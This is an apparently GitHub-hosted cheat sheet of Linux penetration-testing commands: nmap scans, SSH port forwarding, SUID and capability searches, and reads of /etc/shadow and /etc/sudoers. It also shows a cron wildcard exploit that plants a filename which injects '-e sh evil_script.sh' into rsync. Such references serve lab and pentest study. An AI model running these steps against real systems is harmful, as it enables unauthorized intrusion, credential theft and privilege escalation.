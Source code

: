 



* [Find SUID-bit set files](#suid-binary)
* [Host Discovery](host-discovery)
* [Port Scan](port-scan)
* [Port Forwarding](port-forwarding)
* [Sudo usage](Sudo-usage)
* [Find executable with capabilites](#capabilities-executable)
* [Exploiting wildcards crons](#wild-wildcards)
* [LinEnum.sh](#linenum.sh)




## Listening ports
 `$ netstat -l`

## Host discovery
Assuming that you wanna discover on 10.10.10.0/24 network:

 `$ nmap -sP 10.10.10.0/24`

## Port Scan

Normal scan  

 `$ nmap -sC -sV <<TARGET IP>> -o output_file.nmap`  
All ports scan
 `$ nmap -A -T5 -p- <<TARGET IP>> -o output_file.nmap`  
UDP scan 
 `$ nmap -sU <<TARGET IP>> -o output_fileudp.nmap`  
with ncat
 `$ nc -v -z <<TARGET IP>> 1-9999`

## Port Forwarding
SSH local port forwarding
 `$ ssh -L 9999:google.com:80 user@remotemachine`  
SSH Remote port forwarding
 `$ ssh -R 9999:localhost:1025 user@remotemachine`
in a nutshell:
 `$ ssh -R remoteport:localaddress:localaddressport user@remotemachine`


## Sudo usage

the first thing that we must do in a new machine:  

`sudo -l`    

`cat /etc/passwd ; cat /etc/shadow; cat /etc/sudoers`




## suid binary

`$ find / -perm -u=s 2>/dev/null`


## Capabilities executable

` find / -type f -print0 2>/dev/null  |  xargs -0 getcap   2>/dev/null`


## Wild Wildcards

When a cronjob is running with a wildcard as * as arguments, it can be exploited:

example:  

	- cron :  

	> $ rsync /backup/* rsync://backup:/src/backup-server/

We can create a file that gonna act as an argument, like:  

	> $ touch -- "/backup/-e sh evil_script.sh"

The final command will be executed as:  

	> $ rsync -e sh evil_script.sh rync://backup:/src/backup-server/   


rync will execute the script as the user who runs the cron :D


## LinEnum.sh

Bash script tool who gives you a entire surface map of the system :D  

- [LinkToLinenum](https://github.com/jcatala/h4ckme/tree/master/enumeration/linenum.sh)
- [Link to official repo](https://github.com/rebootuser/LinEnum)





